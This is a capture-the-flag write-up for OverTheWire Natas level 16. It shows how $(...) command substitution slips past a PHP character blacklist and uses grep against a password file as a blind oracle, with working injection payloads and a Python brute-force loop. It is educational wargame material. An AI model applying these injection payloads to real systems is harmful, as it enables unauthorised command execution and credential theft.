








# Natas — Level 16 → 17

**Category:** OverTheWire / Natas  
**Difficulty:** Hard  
**Date:** 2026-08-23  
**Level page:** [natas16.html](https://overthewire.org/wargames/natas/natas16.html)

## Goal

The same search box as level 9, but with a stricter warning:

    For security reasons, we now filter even more on certain characters

## Solution

The source showed a tighter blacklist and a quoted `passthru()` call:

    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }

`;`, `|`, `&`, backticks, and both quote types are blocked now — command chaining and the old unquoted-glob trick from level 9 are both out. But `$key` still lands inside double quotes in a real shell command, and bash still expands `$(...)` command substitution *inside* double quotes. None of `$`, `(`, or `)` are on the blacklist. Confirmed the baseline first:

    dictionary

    dictionary
    dictionary's

Then tested command substitution:

    $(echo the)

    aesthetic
    aesthetically
    altogether
    ...

Confirmed — the shell expanded `$(echo the)` to `the` before `grep` ever saw it, all inside the quotes the filter couldn't stop. Used that as an oracle: `grep ^{guess} /etc/natas_webpass/natas17` returns the full password line if it matches the prefix, or nothing if it doesn't, and appending a literal `hello` afterward turns that into a clean yes/no signal against `dictionary.txt`:

    $(grep ^a /etc/natas_webpass/natas17)hello

    hello
    hello's
    hellos

Seeing `hello` in the output means the substitution came back empty (wrong prefix), so the search term collapsed to just `hello`, which is in the dictionary. A correct prefix would return the actual password text glued to `hello`, which wouldn't match any dictionary word, and the output would go quiet. Wrote a script around that:

    payload = f'$(grep ^{candidate} /etc/natas_webpass/natas17)hello'
    response = session.get(URL, params={"needle": payload})

    if "hello" not in response.text:
        password += char

Ran it and watched the password build up:

    K
    KL
    KLd
    KLdA
    KLdAM
    KLdAM3
    ...

Continued until all 32 characters resolved:

## Result

    Password for natas17: [REDACTED]

## Key Takeaway

Blacklisting `;`, `|`, `&`, and quote characters stops the obvious command-chaining tricks, but bash's `$(...)` command substitution runs fine from inside a double-quoted string and needs none of those characters. Once substitution works, `grep ^prefix targetfile` doubles as a boolean oracle on its own — a match returns the whole line, a miss returns nothing — which is enough to brute-force a file's contents one character at a time without ever seeing it directly.
